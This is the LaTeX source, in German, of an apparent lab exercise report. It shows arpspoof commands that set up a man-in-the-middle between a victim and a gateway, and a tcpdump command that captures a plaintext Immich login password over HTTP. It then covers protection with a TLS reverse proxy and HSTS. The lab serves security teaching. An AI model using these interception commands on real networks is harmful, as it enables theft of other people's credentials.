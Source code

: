 \documentclass[
	fontsize=12pt,
	paper=a4,
	numbers=noenddot,
	listof=totoc,
	listof=entryprefix,
	listof=nochaptergap,
	bibliography=totoc,
	parskip=half,
	openany
]{scrbook}
\begin{document}
\begin{lstlisting}[language=bash]
# gegenueber dem Opfer als Gateway auftreten
arpspoof -i eth0 -t 90.0.0.1     90.0.255.254
# gegenueber dem Gateway als Opfer auftreten
arpspoof -i eth0 -t 90.0.255.254 90.0.0.1
\end{lstlisting}

Da Immich zunächst über HTTP läuft, stehen die Login-Daten im Klartext im Paket.
tcpdump zeigt die Paketinhalte an:

\begin{lstlisting}[language=bash]
tcpdump -i eth0 -A -n 'tcp port 80'
\end{lstlisting}

Loggt sich das Opfer nun auf der Webseite ein, erscheint das im Klartext
übertragene Passwort im Mitschnitt (POST-Body des Login-Requests). Danach werden
\texttt{arpspoof} und \texttt{tcpdump} beendet.

\chapter*{Aufgabe 4: Schutz mit Verschlüsselung und Zertifikaten}

Immich wird auf Port 2283 zurückgestellt und ist nur noch intern erreichbar.
Davor kommt der \emph{NginX Proxy Manager} (NPM), der über Port 80/443 nach
aussen spricht und per Let's Encrypt ein Zertifikat für die duckdns-Domain
anfordert. Zusätzlich werden \emph{Force SSL} und \emph{HSTS} aktiviert. Port 81
(NPM-Admin) muss in der bwCloud-Firewall freigegeben werden.

\section*{Bedeutung von HSTS}

HSTS (HTTP Strict Transport Security) ist ein Response-Header
(\texttt{Strict-Transport-Security: max-age=...}), mit dem der Server dem Browser
mitteilt, die Seite für die angegebene Dauer ausschliesslich über HTTPS
aufzurufen. Daraus ergeben sich folgende Konsequenzen:

\begin{itemize}
	\item Der Browser ersetzt \texttt{http://}-Aufrufe der Domain intern durch
	      \texttt{https://}, noch bevor eine Anfrage das Netz verlässt.
	\item Ein erzwungenes Downgrade auf HTTP (SSL-Stripping) wird verhindert.
	\item Bei Zertifikatsfehlern ist kein \glqq Trotzdem fortfahren\grqq{} mehr
	      möglich.
\end{itemize}
\end{document}
